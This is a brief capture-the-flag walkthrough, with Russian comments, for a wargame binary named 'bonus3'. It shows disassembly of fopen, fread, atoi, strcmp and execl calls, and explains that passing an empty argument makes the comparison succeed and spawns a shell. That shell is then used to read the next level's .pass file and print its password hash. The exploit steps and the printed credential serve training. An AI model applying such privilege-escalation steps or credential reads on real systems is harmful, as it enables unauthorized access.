 ```
$> strings bonus3 | less
[...]
/home/user/end/.pass
/bin/sh
[...]
```
# Поскольку есть вызов fopen, мы можем предположить, что программа открывает файл '.pass'
```   
0x08048513 <+31>:	call   0x8048410 <fopen@plt>
```
# read
```
0x0804856f <+123>:	call   0x80483d0 <fread@plt>
```
# Вызов программы atoi для нашего первого аргумента ...
# потом поместите '\0' в расположение в буфере
```   
0x08048584 <+144>:	call   0x8048430 <atoi@plt>
0x08048589 <+149>:	mov    BYTE PTR [esp+eax*1+0x18],0x0
```
# Затем он вызывает strcmp для сравнения '. передать 'буфер (с'\0') против нашего первого аргумента
```
0x080485da <+230>:	call   0x80483b0 <strcmp@plt>
0x080485df <+235>:	test   eax,eax
```
# Если сравнение прошло успешно, мы получаем оболочку
```
0x080485fa <+262>:	call   0x8048420 <execl@plt>
```
# Поскольку  '"" == '\0''' и 'atoi("") == 0'
```
$> ./bonus3 ""
> cat /home/user/end/.pass
```
>3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c

# ╮(￣_￣)╭